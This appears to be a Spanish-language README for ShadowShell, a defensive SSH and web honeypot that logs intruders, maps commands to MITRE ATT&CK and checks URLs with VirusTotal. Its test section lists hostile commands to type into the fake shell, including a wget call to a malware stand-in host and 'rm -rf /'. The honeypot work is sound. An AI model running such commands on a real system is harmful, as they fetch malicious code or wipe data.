

# 🕸️ ShadowShell - Hybrid SSH & Web Honeypot


**ShadowShell** es un sistema de ciberseguridad avanzado de **arquitectura híbrida** diseñado para emular tanto un servidor Linux vulnerable (SSH) como paneles de administración web expuestos (HTTP). Su objetivo es atraer atacantes, capturar sus vectores de entrada y generar inteligencia de amenazas en tiempo real.

A diferencia de los honeypots tradicionales, **ShadowShell** no solo registra logs; integra un motor de análisis que clasifica ataques con **MITRE ATT&CK**, analiza payloads con **VirusTotal** y correlaciona ataques cruzados entre servicios.

---

## 🚀 Características Principales

### 🧠 Inteligencia & Análisis
- **🔍 Análisis de Malware:** Integración automática con **VirusTotal API** para escanear URLs detectadas (`wget`/`curl`) en tiempo real.
- **🛡️ Mapeo MITRE ATT&CK:** Clasificación automática de tácticas (ej. *Privilege Escalation*, *Defense Evasion*, *Credential Access*).
- **🌍 Geolocalización Avanzada:** Identificación de País, Ciudad, **ISP y Organización** del atacante.
- **🔗 Correlación de Vectores:** Detección de IPs que atacan simultáneamente por Web y SSH (Reconocimiento Activo).

### 🕵️‍♂️ Captura & Emulación
- **Fake Shell (SSH):** Emulación de Ubuntu 22.04 LTS con sistema de archivos virtual y persistencia de sesión.
- **Web Trap (HTTP):** Servidor web trampa que simula paneles de administración y archivos sensibles (`.env`, `config.php`) devolviendo códigos 403/200 engañosos.
- **Honeyfiles:** Archivos señuelo (`passwords.txt`, `wallet_backup.json`) que disparan alertas críticas al ser leídos.

### 📊 Visualización & Alertas
- **📱 Alertas en Tiempo Real:** Notificaciones a **Telegram** con detalles del intruso (IP, Payload, Resultado VT).
- **📈 Dashboard Forense (Streamlit):**
  - **Mapa Mundial de Amenazas** en tiempo real.
  - **Matriz MITRE ATT&CK** interactiva.
  - **Gráficos de Distribución** por ISP y Organización.
  - **Pestaña Web Traps** con análisis de User-Agents y rutas atacadas.

---

## 🏗️ Arquitectura del Sistema


📂 Análisis Forense (Real World Data)
Este proyecto fue desplegado durante 72 horas en un VPS público expuesto a internet. Los resultados del análisis técnico, incluyendo la detección de malware de robo de sesiones de Telegram y guerras de criptomineros, están documentados aquí:

👉 LEER EL INFORME DE INTELIGENCIA COMPLETO

### 🛠️ Instalación y Uso  
Prerrequisitos  
```bash
Docker & Docker Compose

O Python 3.9+ si se corre localmente.
```
```bash
- ✅ Paso 1: Clonar el repositorio
git clone [https://github.com/punga1078/ShadowShell](https://github.com/punga1078/ShadowShell)
cd ShadowShell
```
``` bash
- ✅ Paso 2: Configurar Variables de Entorno
Crea un archivo .env en la raíz del proyecto y agrega tus claves:
TELEGRAM_TOKEN=tu_token_de_telegram
TELEGRAM_CHAT_ID=tu_chat_id
VT_API_KEY=tu_api_key_de_virustotal
DASHBOARD_PASSWORD=Tu_credencial_unica_de_inicio_de_session
```
#### 🚀 Ejecutar con Docker Compose (Recomendado) 
Esto levantará el servicio SSH, la trampa Web y el Dashboard simultáneamente.

docker-compose up -d --build

### 🕹️ Cómo Probarlo (Simulación de Ataque)
Una vez que el contenedor esté corriendo:

Acceder al Dashboard: Abre tu navegador en http://localhost:8501.  

Lanzar un Ataque Simulado: Desde otra terminal, conéctate a tu propio honeypot:   
ssh root@localhost -p 2222  
(Cualquier contraseña es válida)  

Web Trap: http://localhost:80
Para ingresar, primero configurar el .env para poner una contraseña

Ejecutar Comandos Maliciosos: Dentro de la shell falsa, prueba estos comandos para ver las alertas:

   ```bash
   # 1. Táctica: Discovery (Reconocimiento)
   ls -la

   # 2. Alerta IDS: Robo de Datos (Honeyfile trigger)
   cat passwords.txt

   # 3. Alerta VirusTotal + Táctica: Resource Development
   wget [http://malware.com/virus](http://malware.com/virus)

   # 4. Táctica: Defense Evasion (Borrado de huellas)
   rm -rf /
 ```

📂ShadowShell/   
|  
├── 📂analysis/         # Informes técnicos y hallazgos forenses  
├── 📂evidence/         # Capturas de pantalla y logs censurados  
├── 📂data/             # Persistencia (Base de datos SQLite y Logs)    
├── 📂SRC/    
│   ├── logger.py       # Gestión de logs y base de datos    
│   ├── notifier.py     # Sistema de alertas a Telegram  
│   ├── shell_emulator.py # Simulación de terminal Linux y Honeyfiles  
│   └── vt_scanner.py   # Integración con VirusTotal API  
├── server.py           # Servidor SSH Principal (Core)  
├── dashboard.py        # Interfaz de Inteligencia (Streamlit)  
├── docker-compose.yml  # Orquestación de contenedores
├── requirements.txt    # Dependencias de Python  
└── .env                # Credenciales   

⚠️ Disclaimer  
Este software ha sido desarrollado únicamente con fines educativos y de investigación académica.  

El autor no se hace responsable del uso indebido de esta herramienta.  

Se recomienda desplegar este sistema en entornos controlados, aislados o en servidores VPS dedicados para evitar riesgos de seguridad en redes personales.  
